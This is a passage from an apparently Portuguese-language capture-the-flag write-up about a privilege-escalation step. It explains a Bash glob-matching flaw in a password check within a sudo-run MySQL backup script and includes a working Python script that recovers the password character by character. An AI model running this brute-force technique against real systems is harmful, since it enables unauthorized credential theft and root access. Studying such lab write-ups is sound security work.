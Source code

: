 Travei aqui, rodei linpeas, usei umas chaves ssh do root mas todas pedem senha. não tem binários exploráveis com SUID.

Pesquisando sobre o CTF 
Aparentemente essa parte do código do script eh vulnerável

```bash
if [[ $DB_PASS == $USER_PASS ]]; then
    /usr/bin/echo "Password confirmed!"
else
    /usr/bin/echo "Password confirmation failed!"
    exit 1
fi
```
{: .nolineno }

Essa é a explicação da vulnerabilidade, meio confuso pra mim ainda XD, mas da pra entender

Esta seção do script compara a senha fornecida pelo usuário (USER_PASS) com a senha real do banco de dados (DB_PASS). A vulnerabilidade aqui se deve ao uso de == dentro de [[ ]] no Bash, que executa correspondência de padrões em vez de uma comparação direta de strings. Isso significa que a entrada do usuário (USER_PASS) é tratada como um padrão e, se incluir caracteres glob como * ou ?, pode potencialmente corresponder a strings não intencionais.
Por exemplo, se a senha real (DB_PASS) for password123 e o usuário inserir * como senha (USER_PASS), a correspondência de padrão será bem-sucedida porque * corresponde a qualquer sequência, resultando em acesso não autorizado.
Isso significa que podemos aplicar força bruta em cada caractere no DB_PASS.



**Script em python pra brute force de cada character da senha.**

O script Python que explora isso testando prefixos e sufixos de senha para revelar lentamente a senha completa.
Ele cria a senha caractere por caractere, confirmando cada suposição invocando o script via sudo e verificando se a execução foi bem-sucedida.

```python
import string
import subprocess

def check_password(p):
    command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
    result = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True)
    return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
    for char in charset:
        if check_password(password + char):
            password += char
            print(password)
            break
    else:
        is_password_found = True

print("Password found: ", password)
```
{: .nolineno }  
Executando o Script em python.
